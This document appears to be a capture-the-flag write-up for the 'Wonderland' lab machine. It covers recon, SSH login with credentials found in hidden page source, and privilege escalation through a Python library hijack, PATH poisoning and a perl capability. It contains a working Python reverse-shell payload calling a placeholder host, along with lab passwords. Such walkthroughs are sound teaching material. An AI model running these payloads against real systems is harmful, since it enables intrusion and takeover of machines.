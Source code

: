 ## recon

### nmap_scan
![[alice-wonderland-nmap.png]]
> Nmap scan of target box

Ports open:
-	22 (SSH)
-	80 (Web Server)


### directory scanning

Scanning for directories on the webserver leads to `http://<ip>/r/a/b/b/i/t/`.

![[alice-homepage.png]]

#### Source code

Checking the source code for this page reveals a string that looks like an SHH user/pass combination.

`style="display:none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail`

## Alice > Rabbit

Using this combination as an SSH user/pass combination gains us access to the target machine.

![[alice-wonderland-ssh-alice.png]]


### sudo -l

Running `sudo -l` tells us we can run `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as user `rabbit`.

![[alice-sudo-l.png]]


Checking the file `walrus_and_the_carpenter.py` shows us that it is importing the library file `random.py`.

![[alice-walrus-random.png]]

We can create our own random.py that the file will read first before the one in `/var/lib/` that throws us a shell we have to catch with a listener as user rabbit.

### Create random.py to throw shell as rabbit to listener.

Creating a new `random.py` file in the home directory allows us to inject malicious code into the running of `walrus_and_the_carpenter.py`. ([[cheatsheet#General Linux stuff#path_poisoning]])

Created `random.py` file:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<host_addr>",<port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Now when the python code is run using sudo to change to the user `rabbit` we gain a shell as `rabbit`:

## Rabbit > Hatter

Enumerating the home directory of user `rabbit` gives us a file called `teaParty`. This file has an SUID bit set by the user `hatter`. Running this file gives us a segmentation so it could be vulnerable to an overflow attack. Trying to read the contents of the file gives away that it is using the `date` command. We can poison the path with a new date file that contains `/bin/sh` in order to gain a shell as `hatter`. ([[Concepts#path_poisoning]])

`echo "/bin/sh" > /tmp/date`
`export PATH=/tmp:$PATH`

Running the `teaParty` file now will spawn a shell as `hatter`.

##### SHH in as hatter for better shell

Inside hatters home directory is a file `password.txt`. This can be used to SSH back into the machine for a nicer environment for use.

## Hatter > Root

### Run linpeas on target machine, shows pearl as able to set SUID bit

![[alice-linpeas-output.png]]

#### GTFO bins for pearl, use cap_set payload 

![[alice-perl-setuid.png]]

##### read root.txt in /home/alice/ and user.txt in /home/root/ (everything is upside down here)


## General Notes

alice password: HowDothTheLittleCrocodileImproveHisShiningTail

hatter password: WhyIsARavenLikeAWritingDesk?